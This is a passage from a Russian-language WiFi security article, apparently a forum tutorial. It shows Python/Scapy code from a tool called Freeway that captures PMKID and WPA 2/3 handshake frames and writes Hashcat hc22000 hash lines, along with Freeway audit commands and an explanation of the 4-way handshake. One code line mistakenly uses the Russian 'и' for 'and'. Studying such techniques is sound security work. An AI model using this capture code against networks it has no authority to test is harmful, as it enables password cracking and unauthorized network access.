logging.debug(f"Detected second EAPOL PMKID packet but we didnt catch the SSID yet! Session: {self.pmkids[session_id]}")
return
self.APs[src_mac]["PMKIDs"].add(timestamp)
logging.debug("\n1st EAPoL Frame: \n" + str(self.pmkids[session_id]['first_eapol_frame']) + "\n")
logging.debug("Possible PMKID: ", self.pmkids[session_id]['pmkid'])
ssid_hex = bytes(self.APs[src_mac]["SSID"], 'utf-8').hex()
logging.debug("SSID: ", self.APs[src_mac]["SSID"])
mac_ap_formatted = self.pmkids[session_id]['mac_ap'].replace(":", "").lower()
mac_cl_formatted = self.pmkids[session_id]['mac_cl'].replace(":", "").lower()
logging.debug("MAC AP: ", mac_ap_formatted)
logging.debug("MAC Client: ", mac_cl_formatted)
logging.debug("\nEncoded PMKID compatible with Hashcat hc22000:")
hash_line = f"{self.pmkids[session_id]['pmkid']}*{mac_ap_formatted}*{mac_cl_formatted}*{ssid_hex}"
logging.debug(hash_line)
save_hash_file(os.path.join(self.pmkids_dir, "pmkid_" + timestamp), hash_line)Для захвата PMKID конкретной сети мы можем использовать Network Audit в Freeway:
Код:
$ sudo Freeway -i wlan1 -a auditЗахват рукопожатия
Процесс аутентификации WiFi сети делится на 4 транзакции между станцией и точкой доступа:- AP -> STA: Точка доступа (AP) отправляет сообщение EAPOL (Extensible Authentication Protocol over LAN) на станцию (STA), которое включает ANonce (случайное число AP).
- STA -> AP: Станция отвечает сообщением EAPOL, содержащим SNonce (случайное число станции), MIC (Message Integrity Code) и свою идентичность.
- AP -> STA: Точка доступа проверяет полученный MIC и, если он правильный, отправляет GTK (Group Temporal Key), зашифрованный с помощью PTK (Pairwise Transient Key), вместе с другим сообщением EAPOL.
- STA -> AP: Станция подтверждает получение третьего сообщения и устанавливает PTK и GTK.
Реализация с использованием Scapy
Python:
def handle_eapol_frame(self, packet, timestamp):
"""
Захват рукопожатий WPA 2/3 для всех сессий.
"""
src_mac = packet[Dot11].addr2
dst_mac = packet[Dot11].addr1
session_id = f"{src_mac}-{dst_mac}"
session_id_reversed = f"{dst_mac}-{src_mac}"
logging.debug(f"{timestamp}--Detected EAPOL Packet! Logging session-id: {session_id}")
if session_id not in self.handshakes:
self.handshakes[session_id] = {'to_frames': 0, 'from_frames': 0, 'packets': []}
to_ds = packet.FCfield & 0x1 != 0
from_ds = packet.FCfield & 0x2 != 0
if to_ds and not from_ds:
self.handshakes[session_id]['to_frames'] += 1
elif not to_ds and from_ds:
self.handshakes[session_id]['from_frames'] += 1
self.handshakes[session_id]['packets'].append(packet)
filename = os.path.join(handshake_dir, f"{session_id}_handshake.pcap")
dump = PcapWriter(filename, append=True, sync=True)
dump.write(packet)
if self.handshakes[session_id]['to_frames'] >= 2 и self.handshakes[session_id]['from_frames'] >= 2:
if self.APs[src_mac]:
self.APs[src_mac]["Handshakes"].add(timestamp)
logging.debug(f"Captured complete WPA handshake for session {session_id}")
self.handshakes[session_id] = {'to_frames': 0, 'from_frames': 0, 'packets': []}Freeway захватит как PMKID, так и рукопожатия. При использовании Packet Monitor он будет собирать EAPOL пакеты всех ближайших сетей, а при аудите — только конкретной.
Код:
$ sudo Freeway -i wlan1 -a auditИтог сложных эксплойтов
Эти специфические техники могут показаться трудными для понимания и воспроизведения. Если вам комфортнее читать код на Python, чем статьи, подобные этой, не стесняйтесь изучить исходный код Freeway для более глубокого понимания фреймворка Scapy. Честно говоря, от более близкого взгляда на сигналы, летающие в эфире, до местных фишинговых методов, захвата и взлома паролей — вот чему вы сегодня научились.Заключение
Отвечая на вопрос в теме "Каково состояние безопасности WiFi в 2024 году?", мы должны ответить на гораздо более важный вопрос: "Сколько времени пройдет, прежде чем все эксплойты будут исправлены?" и "Будут ли они когда-нибудь исправлены?".Ответ прост и очевиден:
Большинство эксплойтов могут работать, потому что они используют общий стандарт протокола (IEEE 802.11), а не конкретные уязвимости устройства или производителя. До тех пор, пока новый стандарт не заменит IEEE 802.11, существует очень малая вероятность, что что-то изменится к лучшему. Некоторые из методов, рассмотренных в этой статье, существуют уже более 10 лет.